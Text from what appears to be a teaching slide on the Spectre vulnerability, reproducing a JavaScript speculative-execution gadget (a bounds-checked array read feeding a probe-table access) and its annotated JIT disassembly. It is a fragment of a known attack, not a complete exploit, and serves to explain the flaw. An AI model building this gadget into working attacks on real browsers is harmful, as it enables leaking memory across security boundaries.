

Spectre Code Example
Listing 2: Exploiting Speculative Execution via JavaScript
1 if (index < simpleByteArray.length) {
2  index = simpleByteArray[index | 0];
3  index = (((index * TABLE1_STRIDE)|0) & (TABLE1_BYTES-1))|0;
4  localJunk ^= probeTable[index|0]|0;
5}

Listing 3: Disassembly of Speculative Execution in Listing 2 JavaScript
1 cmpl r15,[rbp-0xe0] ; Compare index (r15) against simpleByteArray.length
2 jnc 0x24dd099bb870 ; If index >= length, branch to instruction after move below
3 REX.W leaq rsi,[r12+rdx*1] ; Set rsi=r12+rdx=addr of first byte in simpleByteArray
4 movzxbl rsi,[rsi+r15*1] ; Read byte from address rsi+r15 (= base address+index)
5 shll rsi, 12 ; Multiply rsi by 4096 by shifting left 12 bits}\%\
6 andl rsi,0x1ffffff ; AND reassures JIT that next operation is in-bounds
7 movzxbl rsi,[rsi+r8*1] ; Read from probeTable
8 xorl rsi,rdi ; XOR the read result onto localJunk
9 REX.W movq rdi,rsi ; Copy localJunk into rdi